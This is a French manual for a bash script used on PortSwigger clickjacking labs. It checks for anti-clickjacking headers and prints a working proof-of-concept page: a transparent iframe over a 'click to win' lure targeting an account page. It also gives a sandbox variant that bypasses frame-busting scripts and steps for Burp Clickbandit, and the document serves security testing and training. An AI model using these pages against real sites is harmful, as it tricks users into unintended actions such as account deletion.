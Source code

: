 # MANPAGE

Voici un exemple exhaustif d’utilisation du script bash pour les challenges de clickjacking PortSwigger, couvrant chaque fonction et les résultats attendus :

---

## 1. Test de présence des headers anti-clickjacking

**But** : Vérifier si la page cible définit les headers `X-Frame-Options` et `Content-Security-Policy`.

**Exécution** :
```bash
./script.sh
```
**Sortie attendue** :
```
[1] Test de présence des headers anti-clickjacking
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
...
>> [ALERTE] Header X-Frame-Options absent !
>> PROPOSITION : Ajouter X-Frame-Options: DENY ou SAMEORIGIN côté serveur.
>> [ALERTE] Header Content-Security-Policy absent !
>> PROPOSITION : Ajouter une directive CSP frame-ancestors pour restreindre l'embarquement en iframe.
```
**Analyse** : Si les headers sont absents, la page est potentiellement vulnérable au clickjacking[1][5].

---

## 2. Génération d’une preuve de concept HTML pour clickjacking

**But** : Générer une page HTML qui charge la cible dans une iframe transparente pour vérifier l’exploitabilité.

**Exécution** :
Le script affiche un code HTML :
```html
<!DOCTYPE html>
<html>
<head>
  <title>Clickjacking PoC</title>
  <style>
    #target-iframe {
      position: absolute;
      top: 0;
      left: 0;
      width: 800px;
      height: 600px;
      opacity: 0.1;
      z-index: 2;
      border: none;
    }
    #bait {
      position: absolute;
      top: 50px;
      left: 50px;
      z-index: 3;
      background: #fff;
      padding: 20px;
      font-size: 24px;
      border: 2px solid #000;
    }
  </style>
</head>
<body>
  <div id="bait">Cliquez ici pour gagner !</div>
  <iframe id="target-iframe" src="https://<your-lab>.web-security-academy.net/my-account"></iframe>
</body>
</html>
```
**Test** :  
- Hébergez ce fichier sur un exploit server ou ouvrez-le en local.
- Si la page cible s’affiche dans l’iframe, la protection anti-clickjacking est absente ou contournable[1][3][4].

---

## 3. Test de contournement avec sandbox (bypass de frame buster)

**But** : Tester si l’attribut `sandbox` permet de contourner un éventuel script frame buster.

**Exécution** :
Le script affiche un code HTML similaire, mais avec :
```html
<iframe id="target-iframe" sandbox="allow-forms allow-scripts" src="https://<your-lab>.web-security-academy.net/my-account"></iframe>
```
**Test** :  
- Utilisez ce PoC si la page cible utilise un script frame buster (voir labs PortSwigger sur ce sujet[7]).
- Si la page reste visible dans l’iframe, le contournement fonctionne.

---

## 4. Exploitation avancée avec Burp Clickbandit

**But** : Automatiser la création d’une attaque clickjacking complexe.

**Exécution** :
- Suivez les instructions affichées par le script :  
  - Lancez Burp Suite > Burp Clickbandit.
  - Copiez le script Clickbandit dans le presse-papier.
  - Collez-le dans la console développeur de votre navigateur sur la page cible.
  - Enregistrez et rejouez le scénario de clickjacking (ex : suppression de compte, modification d’email)[5][6].

**Résultat attendu** :  
- Burp Clickbandit génère une PoC HTML alignée sur le bouton cible, facilitant la validation de la vulnérabilité.

---

## Synthèse finale

**Sortie** :
```
------------------------------------------------------
[SYNTHÈSE]
1. Vérifiez la présence des headers X-Frame-Options et Content-Security-Policy.
2. Testez l'affichage de la page cible dans un iframe avec la PoC générée.
3. Essayez le bypass sandbox si un framebuster JS est présent.
4. Utilisez Burp Clickbandit pour des scénarios avancés.
Documentation PortSwigger : https://portswigger.net/web-security/clickjacking
------------------------------------------------------
```

---

